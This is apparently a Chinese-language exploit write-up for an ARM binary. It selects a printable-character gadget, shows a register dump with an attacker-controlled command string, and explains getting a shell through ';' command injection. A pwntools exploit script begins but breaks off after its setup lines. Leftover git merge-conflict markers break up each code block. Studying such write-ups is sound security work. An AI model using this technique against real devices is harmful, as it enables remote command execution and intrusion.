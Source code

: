 寻找合适的 gadget，符合可见字符，因为 aslr 为 1，最后的利用需要爆破，这里为了方便会关闭 aslr。binary\_base 前面为 0x4 开头的时候 binary 里有些地址 gadget 会符合要求，如下 gadget

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
.text:00014D5C                 STR             R3, [R11,#var_30]
.text:00014D60                 LDR             R0, [R11,#var_38]
.text:00014D64                 BL              _ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv ; std::string::c_str(void)
.text:00014D68                 MOV             R2, R0
.text:00014D6C                 LDR             R3, =(aR_0 - 0x14D78) ; "r"
.text:00014D70                 ADD             R3, PC, R3 ; "r"
.text:00014D74                 MOV             R1, R3  ; modes
.text:00014D78                 MOV             R0, R2  ; command
```

这里有很多方法来 getshell，如果采取 rop 利用，R11 这里的地址刚好在栈上，我尝试之后发现如果使用多个 key 和 value，这些值会往上跑，最后可以跑到 r11 这里，此时就可以写很长的命令来执行

还有一种方法是从 `00014D68` 这里的地址开始的 gadget，此时的寄存器状态如下

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
*R0   0x7efff1e0 ◂— 'aaaaaaaa\\MA'
 R1   0x0
*R2   0x7efff1e0 ◂— 'aaaaaaaa\\MA'
*R3   0x414d5c ◂— mov r2, r0
 R4   0x4b7954 ◂— 0xb77f4
 R5   0x0
 R6   0x407464 ◂— mov fp, #0
 R7   0x0
 R8   0x0
 R9   0x0
 R10  0x4b7954 ◂— 0xb77f4
*R11  0x7efff104 —▸ 0x76fb3840 ◂— mov r3, r0
 R12  0x0
*SP   0x7efff0e8 ◂— 0x0
*PC   0x414d5c ◂— mov r2, r0
```

r0 这里可以控制 8 个字节的命令，最后一个字节用；来隔开进行命令执行，但是在调试的时候发现 `00014D68` 这里的地址需要细调，最后的地址为 `00014D5C`，传入自定义的请求头也可以写很长的命令了

exp 如下

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
from pwn import *

context(arch='arm', os='linux', log_level='debug')

li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')
lg = lambda x : print('\033[32m' + str(x) + '\033[0m')

context.terminal = ['tmux','splitw','-h']

ip = '127.0.0.1'
port = 8801
```